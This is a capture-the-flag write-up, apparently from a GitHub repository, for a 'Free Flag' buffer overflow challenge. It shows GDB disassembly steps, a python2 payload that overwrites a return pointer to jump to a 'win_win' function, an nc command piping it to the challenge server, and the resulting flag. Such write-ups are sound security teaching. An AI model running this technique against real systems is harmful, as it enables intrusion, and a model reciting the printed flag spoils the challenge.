




# Free Flag

Author: [roerohan](https://github.com/roerohan)

This is a simple buffer overflow challenge where you have to overwrite the return pointer.

# Requirements

- GDB
- Knowledge of Function Stack, Return Pointer

# Source

- [chall](./chall)

# Exploitation

This is a classic buffer overflow challenge. The flag is in a file on the server, and a binary is given to you ([chall](./chall)). Fire up GDB, and check out the main function using `disas main`.
<br />



You see a function called `here`. We check it out using `disas here`.
<br />



In this you see a call to the `read` function. Also, when you do `info functions`, notice there is a function called `win_win`. Let's check that out.
<br />



So the `win_win` function has a has a call to `system`, looks like this is our target function. If we can run this somehow, we get the flag. So we try to overwrite the return pointer in the `here` function. You see that the size of the stack is `0x20` or `32`. We need to add 8 more bytes to overwrite the saved base pointer, making it 40. Then, the return pointer must be overwritten in little endian to the `win_win` function. Let's write the payload.

```bash
python2 -c "print('a'*(32+8) + '\x08\x07\x40\x00\x00\x00\x00\x00')"
```

This can now be piped to the server to get the flag.

```bash
python2 -c "print('a'*40 + '\x08\x07\x40\x00\x00\x00\x00\x00')" | nc asia.pwn.zh3r0.ml 3456
```



The flag is:

```
zh3r0{welcome_to_zh3r0_ctf}
```